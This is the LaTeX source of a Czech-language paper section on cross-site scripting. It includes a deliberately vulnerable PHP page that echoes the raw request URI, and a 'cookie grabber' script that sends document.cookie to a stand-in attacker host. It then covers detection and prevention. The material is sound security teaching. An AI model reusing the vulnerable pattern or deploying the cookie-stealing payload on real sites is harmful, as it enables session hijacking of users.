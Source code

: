 \documentclass[11pt, conference, a4paper]{IEEEtran}
\begin{document}
\subsection{Principy na příkladech}
Aby bylo možno ukázat příklady reálného útoku, je nejprve nutné pochopit základní principy, kterých je možno využít.


\begin{lstlisting}[
  caption=Kód na serveru,
  label=lst1:ks,]
<html>
<body>
<?php
print "Not found: " . urldecode($_SERVER["REQUEST_URI"]);
?>

</body>
</html>
\end{lstlisting}

\subsection{Reálné útoky}
Nejjednodušším příkladem reálného útoku je tzv. , který získá cookies uživatele a pošle jej pomocí HTTP dotazu na útočníkův server. Tento útok je možno realizovat libovolným typem XSS.

\begin{lstlisting}[
  caption=Cookie grabber,
  label=lst1:cg,]
<SCRIPT type="text/javascript">
var address = 'http://attacker.test?cakemonster=' + escape(document.cookie);
fetch(address);
</SCRIPT>
\end{lstlisting}




\section{Jak detekovat XSS zranitelnosti}
XSS zranitelnosti mohou být poměrně náročné na detekci a~odstranění z již existující webové aplikace. Nejlepším způsobem bývá provedení plné revize zdrojových kódů aplikace. Nejdůležitější při revizi je zaměřit se na místa, na kterých se vkládají uživatelský vstup nebo data z HTTP dotazů do HTML kódu webové stránky. Je nutné dávat si pozor na veškeré HTML tagy, které mohou být použity pro spouštění JavaScript kódu, a~ne jen na \texttt{<script>} tag.

K odhalení XSS zranitelností je také možno použít některé užitečné nástroje, jako jsou například Nessus a~Nikto. Pokud je zranitelná nějaká část aplikace, je velmi pravděpodobné, že problém může být i na jiných místech.



\section{Předcházení útoků XSS}
XSS je komplexní problém, který trápí vývojáře už nějakou dobu a~rozhodně v brzké době jen tak nezmizí. Neexistuje hromadné řešení, které by mohlo být jednoduše aplikovatelné pro většinu webových aplikací.
\end{document}

